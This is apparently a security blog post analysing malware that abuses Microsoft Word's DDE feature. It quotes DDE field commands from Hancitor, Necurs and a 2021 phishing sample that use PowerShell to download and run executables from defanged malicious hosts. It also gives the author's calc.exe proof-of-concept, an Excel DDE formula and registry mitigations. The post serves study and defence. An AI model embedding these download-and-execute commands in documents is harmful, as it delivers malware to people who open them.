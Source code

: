 ```yaml
---
layout: post
title: Word DDE Malware
categories: [Malware, Word, DDE]
excerpt:  Microsoft Word supports a (mostly legacy) featured called DDE or "Dynamic Data Exchange" that provides an interface which can be used to launch new processes and download content. Not exactly what it was originally intended for, but a handy feature for malware authors.
---
```

(Estimated Reading Time: 11 minutes)

- [Word and DDEAUTO](#Word-and-DDEAUTO)
- [DDE in Past Malware](#DDE-in-Past-Malware)
- [My DDE Samples](#My-DDE-Samples)
- [Mitigations](#Mitigations)
- [References](#references)

## Word and DDEAUTO
 Microsoft Word supports a (mostly legacy) featured called DDE or "Dynamic Data Exchange" that provides an interface which can be used to launch new processes and download content. Not exactly what it was originally intended for, but a handy feature for malware authors. It does present several popup warnings for the user so is not a silent attack method. However, it does still seem to be used in the wild and has been used in the past so I thought it was worth a closer look and a consolidation of information. 

It is worth noting that DDE attacks are no more effective than macro-based attacks. DDE attacks also require the user to click through a series of warnings like below. In the samples I made, I had to click through 2 warnings on Office 2016. 

![warning1](/images/warning1.jpg)
![warning2](/images/warning2.jpg)

## DDE in Past Malware
 
Hancitor Malware used DDE, reported in Oct,2017 on isc.sans.edu. The doc used the following DDE command. SHA256 hash: f945105f5a0bc8ea0d62a28ee62883ffc14377b6abec2d0841e88935fd8902d3

```
 "DdE" c:\\Windows\\System32\\cmd.exe " /k powershell.exe (New-Object System.Net.WebClient).DownloadFile('hxxp://frontiertherapycenter.com/16.exe','%TEMP%\\tvs.exe');Start-Process '%TEMP%\\tvs.exe'"
```

Necurs Botnet usd DDE, also discussed on isc.sans.edu in Oct,2017. I was able to grab this file from virusshare.com. Interestingly, when I ran strings.exe and strings.py on the file the DDE command was not found in the strings. TrID listed this file as a .docx (ie the modern Office file format) SHA256 hash:  3fa85101873d1c3447594c309ea1e324beb578843e1fab7c05189830d2def126

```
DDE C:\\Windows\\System32\\cmd.exe "/k powershell -NoP -sta -NonI -w hidden $e=(New-Object System.Net.WebClient).DownloadString('hxxp://arkberg-design.fi/KJHDhbje71');powershell -e $e "  
```

More recently [DDE was back in the news]((https://isc.sans.edu/forums/diary/Dynamic+Data+Exchange+DDE+is+Back+in+the+Wild/27116)) in Feb,2021 as part of a phishing attack to download a RAT. The sample is the older OLE word format. The file name was e-Voucher.doc. When I viewed the sample with the strings command the DDE command can be seen easily. SHA256:de966b0d005dda776a6104f999f294d62c5b1f6b6e5c6f79de5135ec66ba4ee4

```
ddeauto "c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe" "/c powershell.exe (new-object system.net.webclient).downloadfile(' hxxp://fullhash.cloud/tmpl_c/mscalc.exe','%temp%\\mscalc.exe');start-process '%temp%\\mscalc.exe'"  \* mergeformat 
```

The website [labs.inquest.net](labs.inquest.net)
primarily focuses on deep inspection of office type documents. By visiting the site and searching for 'Heuristics' and alert on 'Microsoft Dynamic Data Exchange (DDE)' you can see a listing of all instances of DDE usage in their database. As of 3/1/21 it returned 10 results.

![inquest](/images/inquestlabs.jpg)

One of the samples in this list from inquestlabs was a bit interesting in that it obfuscated the typical C:\\windows\system32\\ path seen in above samples by using a reverse solidus char, as seen below.

![ddecmd](/images/ddecmd.jpg)

I also stubbled across these samples from [@GossiTheDog](https://twitter.com/GossiTheDog/status/918113076985163778) which had a bit more complexity to them then just downloading and executing something. This first one Creates a new user on the box, and the second one starts up IE to perform a download as seen below. I've changed the URL just so you can see the technique as the image is a bit hard to read.

```
DDEAUTO C:\\Windows\\Sysem32\\cmd.exe "/k powershell.exe $e=new-object -com internetexplorer.application; $e.visible=$true; $e.navigate2('https://www.google.com/'); powershell -e $e
```

![ddecmd](/images/iedl.jpg)

The usage of DDE is not limited to Word only. The following [linked blog](https://pentestlab.blog/2018/01/16/microsoft-office-dde-attacks/) has examples using Excel, outlook, outlock calendar appointments,etc. It is quite simple to launch calc from Excel as well using a command like this in the first row, first column of an excel sheet. I posted this Excel file on my github site as well.
```
=cmd|'/c calc.exe'!A1
```

## My DDE Samples

In my research on DDE I wanted to create a couple non-malicous samples for research that simply launch calc.exe. I have posted my samples on [my github site here](https://github.com/Cyber00011011/DDE_Samples). I created 4 Word documents. Two in the newer Word format, and 2 in the older format. These samples were made with Office 2016. At first, I didn't understand why I couldn't see the DDE command in the newer Word docx with strings.exe, but eventually realized I needed to unzip them first. It also helped reading this [blog from inquest.net on DDE](https://inquest.net/blog/2017/10/13/microsoft-office-dde-macro-less-command-execution-vulnerability).

Here is the sample cmd I used to launch calc.exe. This lines up with the newer sample seen in 2021. I tried, but could not get the DDE C:\\Windows\\System32\\cmd.exe style command to work for me in Office 2016. 

```
ddeauto "c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe" "/c powershell.exe start-process 'calc.exe'"  \* mergeformat 
```

## Mitigations

The [Microsoft Security Advisory](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440) on this topic recommends either disabling the DDE feature via a registry key below, or for customers on Windows 10 1709 or greater using the Attack Surface Reduction (ASR) Rules. 

* For Office 2010 and later versions, to disable the DDE feature via the Registry Editor

> [HKEY_CURRENT_USER\Software\Microsoft\Office\<version>\Word\Options\WordMail] DontUpdateLinks(DWORD)=1

* For Office 2007, to disable the DDE feature via the Registry Editor:

> [HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\Word\Options\vpref] fNoCalclinksOnopen_90_1(DWORD)=1

## References
* Link to [Microsoft DDE Overview](https://docs.microsoft.com/en-us/windows/win32/dataxchg/dynamic-data-exchange-overviews)
* Link to [Microsoft Security Advisory](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440)
* Link to [Necurs Botnet malspam pushes Locky using DDE attack](https://isc.sans.edu/forums/diary/Necurs+Botnet+malspam+pushes+Locky+using+DDE+attack/22946)
* Link to [Dynamic Data Exchange DDE is Back in the Wild](https://isc.sans.edu/forums/diary/Dynamic+Data+Exchange+DDE+is+Back+in+the+Wild/27116)
* Link to [Migo Kedem blog on DDE](https://medium.com/@migokedem/malware-embedded-in-microsoft-office-documents-dde-exploit-macroless-4f197387ddbd)
* Link to [My DDE Non-malicious Samples](https://github.com/Cyber00011011/DDE_Samples)